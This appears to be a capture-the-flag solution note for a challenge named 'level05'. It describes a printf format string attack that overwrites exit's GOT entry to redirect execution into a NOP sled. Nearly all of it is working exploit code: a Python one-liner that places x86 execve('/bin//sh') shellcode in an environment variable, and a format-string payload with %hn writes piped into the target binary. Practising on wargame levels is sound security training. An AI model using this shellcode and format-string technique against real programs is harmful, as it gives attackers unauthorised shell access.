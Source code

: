 # Solution

## TODO

printf format attack writting got table of exit to redirection inside nop sled address

```sh
export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%57137x%10$hn%8390x%11$hn"'; cat) | ./level05
```

